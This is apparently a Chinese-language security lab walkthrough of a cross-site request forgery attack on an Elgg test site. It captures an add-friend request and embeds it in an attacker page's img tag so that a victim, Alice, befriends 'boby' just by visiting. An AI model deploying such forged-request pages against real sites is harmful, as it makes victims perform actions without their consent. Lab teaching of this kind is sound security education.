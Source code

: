 首先我们要知道如何添加用户：

> 使用 admin seedelgg 进行登录，然后添加 boby 用户；

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186055112?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186078696?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

然后我们需要知道，添加用户时是使用的什么请求；使用 LiveHttpHeader 抓包：

>LiveHttpHeader 使用指南：

>    点击 Firefox 菜单栏中 Tools；

>	点击 LiveHttpHeader

>	勾选 Capture

>	点击 add friend

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186167643?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

分析抓取到的数据包：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186206593?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

添加 boby 用户的链接,例如：

```
http://www.csrflabelgg.com/action/friends/add?friend=40&__elgg_ts=1429794173&__elgg_token=194fee1a60560fd22f06943948fd9ee1
```

这样我们就可以构造一个页面，让 Alice 用户访问以后，就会添加 boby 为好友。

```
    sudo vim /var/www/CSRF/Attacker/hack.html
```

输入下面代码：

```
	<html>
	<img src="http://www.csrflabelgg.com/action/friends/add?friend=40&__elgg_ts=1429794173&__elgg_token=194fee1a60560fd22f06943948fd9ee1">
	</html>
```
Alice 用户访问前：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186343735?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)
	
Alice 用户访问：www.csrflabattacker.com/hack.html

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186371620?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

Alice 用户访问后：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186395717?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)
